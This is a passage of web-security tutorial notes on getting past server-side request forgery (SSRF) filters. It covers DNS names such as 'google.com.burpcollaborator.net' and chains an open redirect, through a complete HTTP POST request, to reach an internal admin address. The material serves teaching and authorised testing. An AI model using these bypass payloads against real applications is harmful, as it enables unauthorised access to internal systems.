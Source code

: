 #### You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
```txt
    https://expected-host.evil-host
    https://google.com.burpcollaborator.net
```
### Bypassing SSRF filters via open redirection
#### For example, the application contains an open redirection vulnerability in which the following URL (http://evil-user.net):
```txt
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```
#### You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows: 
```txt
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```
**Note: Always encode `&` to url encode** 
